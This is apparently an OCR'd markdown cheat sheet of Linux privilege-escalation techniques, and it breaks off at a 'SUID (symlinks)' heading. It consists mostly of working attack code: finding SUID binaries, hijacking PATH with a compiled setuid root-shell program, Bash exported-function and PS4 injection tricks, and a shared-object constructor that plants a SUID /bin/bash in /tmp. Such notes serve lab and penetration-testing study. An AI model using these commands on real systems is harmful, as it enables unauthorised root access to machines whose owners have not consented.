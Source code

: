 ````
### SUID Environment Variables
First find vulnerable binaries
```
find / -type f -perm -04000 -ls 2>/dev/null
```
**REQUIRES STRINGS!!**  
```
strings ../bin/<suid-env> # consider the function calls in the strings output
```
Injectable suidlib.c or some other function somewhere else in the file system?
Inject a path to renamed "escalation.c" to required by the binary *.c
```
echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c #escalation->service.c
gcc /tmp/service.c -o /tmp/service # compile with naming to match target 
export PATH=/tmp:$:PATH # inject a path 
/usr/local/bin/<suid-env>
```
Dodgy services in the strings output
Method #1
> Bash versions < 4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path. 

function /usr/sbin/service() { 
```
cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p;}
export -f /usr/sbin/service
```  
Method #2  
ONLY Bash versions <= 4.3!!  
> When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements  
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

## Shared Object Injection
### First ouput all SUID binaries
```
find / -type f -perm -04000 -ls 2>/dev/null
### List packages -> version enumeration!
dpkg -l | grep #for the package
# Run strace to check if there missing binaries
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
# Impersonate directory and file to replace missing SUID: mkdir /home/user/.confid | cd /home/user/.config         
#include <stdio.h>
#include <stdlib.h>

        static void inject() __attribute__((constructor));

        void inject() {
                system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
        }

```
Save libcalc.c ```gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c```  
/usr/local/bin/suid-so

## SUID (symlinks)
### Search-engine dorking commence  
```
````